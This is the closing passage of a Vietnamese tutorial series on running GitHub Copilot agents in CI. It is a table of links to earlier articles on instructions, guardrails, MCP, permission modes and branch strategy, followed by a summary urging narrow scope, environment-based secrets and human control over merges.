| Bạn muốn... | Đọc bài |
|---|---|
| Tune Copilot review precision bằng instructions | [03 — Instructions](./03-instructions-memory-rules.md) |
| Prompt review/triage tái dùng cho CI jobs | [05 — Prompt files](./05-prompt-files-custom-instructions.md) |
| Agents local vs coding agent cloud | [06 — Custom agents](./06-custom-agents-parallel.md) |
| Branch protection + push protection + review gate (server-side) | [07 — Guardrails](./07-policies-guardrails-tu-dong-hoa.md) |
| MCP trong Actions runners (remote only, secrets env) | [08 — MCP](./08-mcp-ket-noi-cong-cu-ngoai.md) |
| CLI extensions + marketplace cho CI | [09 — Extensions](./09-extensions-marketplaces.md) |
| Approval allow/ask/deny + 3 chế độ agent (interactive/plan/autopilot) | [10 — Modes & permissions](./10-modes-permissions-availability.md) |
| `copilot/*` branch strategy + review PR agent | [11 — Worktrees & checkpoints](./11-git-worktrees-checkpoints.md) |

> **Chốt bài 12:** CI không có người bấm Allow, nên toàn bộ "bộ não an toàn" phải nằm ở thiết kế — scope hẹp, secrets qua env, timeout rõ, và để con người giữ chốt merge. Automation giỏi nhất cũng chỉ nên *báo cáo và mở PR*; giao cho nó quyền tự merge khi vắng người là cách nhanh nhất để sự cố xảy ra mà không ai biết.
>
> *(Hết bài 12 — hết series 01.)*
